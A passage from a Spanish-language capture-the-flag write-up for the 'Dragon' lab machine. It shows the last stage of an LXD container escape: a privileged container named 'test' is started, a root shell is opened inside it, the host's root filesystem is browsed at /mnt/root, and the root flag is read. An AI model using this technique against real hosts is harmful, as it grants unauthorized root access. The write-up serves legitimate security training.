 Iniciamos el contenedor **test** y, si listamos los contenedores, veremos que nuestro contenedor **test** ya estará activo:
```bash
dragon@TheHackersLabs-Dragon:~$ lxc start test
dragon@TheHackersLabs-Dragon:~$ lxc ls
+------+---------+------+----------------------------------------------+-----------+-----------+
| NAME |  STATE  | IPV4 |                     IPV6                     |   TYPE    | SNAPSHOTS |
+------+---------+------+----------------------------------------------+-----------+-----------+
| test | RUNNING |      | fd42:24f5:d8ca:cae:216:3eff:fe47:1819 (eth0) | CONTAINER | 0         |
+------+---------+------+----------------------------------------------+-----------+-----------+
```

Entramos al contenedor:
```bash
lxc exec test -- /bin/bash
```

Y encontraremos todos los archivos de la máquina víctima en `/mnt/root`:
```bash
root@test:/# ls -la /mnt/root/
total 2097241
drwxr-xr-x  23 root root       4096 Jul 31 20:21 .
drwxr-xr-x   3 root root          3 Sep 24 18:15 ..
lrwxrwxrwx   1 root root          7 Apr 22  2024 bin -> usr/bin
drwxr-xr-x   2 root root       4096 Feb 26  2024 bin.usr-is-merged
drwxr-xr-x   4 root root       4096 Jul 31 20:32 boot
dr-xr-xr-x   2 root root       4096 Feb 16  2025 cdrom
drwxr-xr-x  20 root root       4100 Sep 24 17:05 dev
drwxr-xr-x 109 root root       4096 Sep 24 17:43 etc
drwxr-xr-x   3 root root       4096 Jul 31 20:39 home
lrwxrwxrwx   1 root root          7 Apr 22  2024 lib -> usr/lib
drwxr-xr-x   2 root root       4096 Feb 26  2024 lib.usr-is-merged
lrwxrwxrwx   1 root root          9 Apr 22  2024 lib64 -> usr/lib64
drwx------   2 root root      16384 Jul 31 20:10 lost+found
drwxr-xr-x   2 root root       4096 Sep 24 17:43 media
drwxr-xr-x   2 root root       4096 Feb 16  2025 mnt
drwxr-xr-x   2 root root       4096 Feb 16  2025 opt
dr-xr-xr-x 223 root root          0 Sep 24 17:05 proc
drwx------   5 root root       4096 Sep 24 17:43 root
drwxr-xr-x  31 root root        920 Sep 24 17:43 run
lrwxrwxrwx   1 root root          8 Apr 22  2024 sbin -> usr/sbin
drwxr-xr-x   2 root root       4096 Aug 22  2024 sbin.usr-is-merged
drwxr-xr-x   6 root root       4096 Sep 24 17:42 snap
drwxr-xr-x   2 root root       4096 Feb 16  2025 srv
-rw-------   1 root root 2147483648 Jul 31 20:21 swap.img
dr-xr-xr-x  13 root root          0 Sep 24 17:05 sys
drwxrwxrwt  15 root root       4096 Sep 24 17:43 tmp
drwxr-xr-x  12 root root       4096 Feb 16  2025 usr
drwxr-xr-x  14 root root       4096 Jul 31 20:49 var
```

Encontraremos la última flag en el directorio `/mnt/root/root`
```bash
root@test:/mnt/root# cd root/
root@test:/mnt/root/root# ls
congrats.txt  root.txt  snap
root@test:/mnt/root/root# cat root.txt
...
```
Y con esto, terminamos la máquina.
